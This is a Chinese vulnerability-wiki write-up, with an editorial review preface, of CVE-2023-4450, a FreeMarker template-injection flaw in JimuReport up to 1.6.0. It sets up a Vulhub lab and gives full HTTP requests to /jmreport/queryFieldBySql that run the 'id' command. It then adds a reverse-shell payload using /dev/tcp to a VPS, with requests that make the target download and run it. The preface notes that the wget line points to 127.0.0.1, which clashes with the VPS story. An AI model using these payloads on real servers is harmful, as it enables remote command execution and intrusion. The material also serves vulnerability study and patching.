



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=1.6.0，实验1.6.0，无明确固定版本，修复指更新日志

代码与实验材料：id基础验证和两阶段文件下载执行；命令请求缺Content-Type，示例wget127.0.0.1与远端VPS叙述不符

来源证据范围：GHSA-j8h5-8rrr-m6j9及JimuReport官方日志、Vulhub派生

- **适用与权限边界（1）**：扩展利用例子环境和请求不完整；依据：托管在VPS却让目标wget回环地址；省略内容类型与文件写入/工作目录/依赖条件，不能直接复现。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：固定版本缺失；依据：明确&lt;=1.6.0比182的1.6.1以下更清晰，但修复仅最新版。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# JimuReport FreeMarker 服务端模板注入命令执行 CVE-2023-4450

## 漏洞描述

积木报表（JimuReport）是一个开源的数据可视化报表平台。在其1.6.0版本及以前，存在一个FreeMarker服务端模板注入（SSTI）漏洞，攻击者利用该漏洞可在服务器中执行任意命令。

参考链接：

- [https://github.com/advisories/GHSA-j8h5-8rrr-m6j9](https://github.com/advisories/GHSA-j8h5-8rrr-m6j9)
- [https://whoopsunix.com/docs/java/named%20module/](https://whoopsunix.com/docs/java/named%20module/)

## 漏洞影响

```
JimuReport version <= 1.6.0
```

## 环境搭建

Vulhub 执行如下命令启动一个JimuReport 1.6.0演示服务器：

```
docker compose up -d
```

等待一段时间后，访问`http://your-ip:8085`即可看到报表首页。




## 漏洞复现

发送如下请求，即可在服务端注入FreeMarker模板`<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}`：

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 100

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\")}'" }
```

可见，`id`命令已经成功被执行：




### 反弹shell

创建一个 `bs.sh` 并托管在 vps，内容如下：

```
/bin/bash -i >& /dev/tcp/<your-vps-ip>/8888 0>&1
```

发包，下载 `bs.sh` 并执行：

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8085

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"wget 127.0.0.1/bs.sh\")}'" }
```

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8085

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"bash bs.sh\")}'" }
```

vps 监听 8888 端口：




## 漏洞修复

升级到最新版本： http://jimureport.com/doc/log


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
